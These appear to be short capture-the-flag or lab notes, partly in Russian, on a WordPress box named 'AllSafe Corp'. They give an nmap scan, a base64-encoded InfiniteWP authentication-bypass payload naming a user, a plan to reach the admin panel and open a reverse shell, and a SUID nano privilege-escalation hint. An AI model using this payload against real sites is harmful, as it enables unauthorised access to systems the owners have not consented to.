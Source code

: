 

## OPEN PORTS

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 cb:ee:40:18:ca:b5:81:4a:8a:7e:13:61:19:f7:d1:05 (RSA)
|   256 e0:5c:d7:d4:76:e7:9d:0c:68:67:62:d4:3f:77:4b:b8 (ECDSA)
|_  256 81:cc:ce:32:1c:8d:fc:44:14:6f:32:72:97:51:01:f0 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: &#8211; AllSafe Corp &#8211;
|_http-generator: WordPress 6.3.2
2000/tcp open  tcpwrapped
5060/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### VULNERABILITY

- echo '{"iwp_action":"add_site","params":{"username":"Mangi"}}' | base64 -w0
- Web user: Mangi

## TODO 

Зайти в вп админ, затем получить рев шелл


## Priv Esc

Был SUID /usr/bin/nano
